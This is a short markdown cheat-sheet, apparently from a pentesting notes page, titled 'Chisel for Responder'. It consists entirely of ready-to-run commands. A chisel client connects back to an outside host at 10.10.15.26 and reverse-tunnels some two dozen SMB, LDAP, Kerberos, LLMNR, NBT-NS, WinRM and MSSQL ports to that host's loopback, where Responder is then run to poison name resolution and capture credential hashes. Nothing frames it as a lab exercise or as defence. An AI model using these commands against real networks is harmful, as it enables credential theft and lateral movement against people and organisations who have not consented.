 <br />

## Chisel for Responder

Here it is:
```sh
./chisel server -p 8688

sudo ./chisel client 10.10.15.26:8688 \
21:127.0.0.1:21 \
25:127.0.0.1:25 \
53:127.0.0.1:53 \
80:127.0.0.1:80 \
88:127.0.0.1:88 \
110:127.0.0.1:110 \
135:127.0.0.1:135 \
139:127.0.0.1:139 \
143:127.0.0.1:143 \
389:127.0.0.1:389 \
443:127.0.0.1:443 \
445:127.0.0.1:445 \
587:127.0.0.1:587 \
1433:127.0.0.1:1433 \
3128:127.0.0.1:3128 \
3141:127.0.0.1:3141 \
5985:127.0.0.1:5985 \
53:127.0.0.1:53/udp \
88:127.0.0.1:88/udp \
137:127.0.0.1:137/udp \
138:127.0.0.1:138/udp \
389:127.0.0.1:389/udp \
1434:127.0.0.1:1434/udp \
5355:127.0.0.1:5355/udp \
5353:127.0.0.1:5353/udp

sudo responder -I lo
```

